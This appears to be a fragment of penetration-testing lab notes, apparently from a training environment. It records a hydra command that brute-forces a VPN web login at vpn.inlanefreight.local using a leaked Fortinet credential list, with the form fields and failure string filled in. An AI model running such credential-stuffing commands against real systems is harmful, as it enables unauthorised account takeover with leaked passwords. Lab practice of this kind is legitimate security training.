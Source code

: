 - Running leaked forticlient creds
```bash
hydra -C /opt/wordlist/seclist/Passwords/Leaked-Databases/fortinet-2021_clean-combos.txt -f vpn.inlanefreight.local  http-post-form "/verify.php:username=^USER^&credential=^PASS^&submit=:F=Access denied"
```
- Finished on 82252
![[Pasted image 20240902120246.png]]